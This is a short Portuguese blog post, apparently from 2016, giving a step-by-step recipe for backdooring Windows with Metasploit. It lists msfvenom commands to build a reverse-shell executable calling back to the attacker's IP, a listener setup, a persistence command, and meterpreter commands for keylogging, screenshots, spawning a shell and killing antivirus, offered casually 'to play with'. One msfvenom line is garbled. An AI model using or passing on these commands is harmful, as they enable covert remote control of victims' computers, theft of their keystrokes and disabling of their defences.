 ```yaml
---
layout: post
title: Criando BackDoor no Windowns
date: 2016-07-11T12:16:44.000Z
---
```

<img src='/images/fulls/back.jpg'>

-Comandos para criar a backdoor:
#msfvenom -p windows/meterpreter/reverse_tcp 192.168.0.104LHOST=(SeuIP) LPORT=443 -f exe > /root/Desktop/shell.exe 

-Comandos para configurar o modo Listening:
#msfconsole
#use exploit/multi/handler
#set payload windows/meterpreter/reverse_tcp
#set lhost (Seu IP)
#set lport 443

exploit

-Comando manutenção de acesso:

#run persistence -A -X -i 60 -p 443 -f (Seu IP)

Comandos do  meterpreter pra brinca 

Para obter ajuda das funções do Meterpreter.
meterpreter > help 

Para finalizar a sessão e sair do Meterpreter.
meterpreter > exit

Ás vezes sera necessauro manter a sessão ativa do Meterpreter  para outras finalidades ,para usar um modulo auxiliar por exemplo.
metrpreter > background

Migrar para outro processo:
meterpreter > run migrate -f

Obter shel.
meterpreter > shell

Executar um arquivo .
execute -f calc.exe

Keylogger.

meterpreter > keyscan_start INICIA O KEYLOGGER
meterpreter > keyscan_dump EXIBE AS TECLAS DIGITADAS
meterpreter > keyscan_stop FINALIZA O KEYLOGGER

Captura de tela.

meterpreter > screenshot

Finalizar processo de antivirus.

meterpreter > run killav

<a href="https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/">Mais comandos.</a>


